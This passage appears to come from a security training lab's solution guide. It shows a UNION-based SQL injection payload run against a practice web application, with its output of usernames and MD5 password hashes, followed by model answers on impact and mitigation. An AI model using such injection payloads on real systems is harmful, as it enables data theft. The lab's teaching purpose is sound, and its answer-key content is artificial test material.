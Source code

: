        ```
        ID:  1' UNION select concat(first_name,last_name), password from users where '1' = '1
        First name: admin
        Surname: admin

        ID:  1' UNION select concat(first_name,last_name), password from users where '1' = '1
        First name: adminadmin
        Surname: 5f4dcc3b5aa765d61d8327deb882cf99

        ID:  1' UNION select concat(first_name,last_name), password from users where '1' = '1
        First name: GordonBrown
        Surname: 575e22bc356137a41abdef379b776dba

        ID:  1' UNION select concat(first_name,last_name), password from users where '1' = '1
        First name: HackMe
        Surname: 97b9308f6a1f6a8524a91450dca473fa

        ID:  1' UNION select concat(first_name,last_name), password from users where '1' = '1
        First name: PabloPicasso
        Surname: 8c7c9b1149e9de712b9e5abab45d700c

        ID:  1' UNION select concat(first_name,last_name), password from users where '1' = '1
        First name: BobSmith
        Surname: 4a02ce029a840716c61ee8fcda10158e`
       ```

    - This matches the results on DB Fiddle:

      | first_name   | last_name                        |
      | ------------ | -------------------------------- |
      | admin        | admin                            |
      | adminadmin   | 5f4dcc3b5aa765d61d8327deb882cf99 |
      | gordonbrown  | 575e22bc356137a41abdef379b776dba |
      | hackme       | 97b9308f6a1f6a8524a91450dca473fa |
      | pablopicasso | 8c7c9b1149e9de712b9e5abab45d700c |
      | bobsmith     | 4a02ce029a840716c61ee8fcda10158e |

6. Answer the following mitigation strategy questions: 

    - After testing and confirming that this web application is vulnerable to SQL injection, provide a summary for your manager of the potential impacts if a malicious actor attempts SQL injection on this web application.

      - **Solution**: There are many acceptable answers, because a variety of malicious payloads can be exploited. Impacts could include leak of confidential data like passwords and hashes, and deletion or modification of confidential data.

    - Based on the malicious payloads you created, recommend a mitigation strategy to the team that built this web application to prevent a malicious user from inputting malicious payloads. 

      - **Solution**: There are many acceptable answers, all involving input validation.
      
        - Possible answers include server-side validation to only allow numerical single values as inputs and parameterized database queries that restrict input from the user.
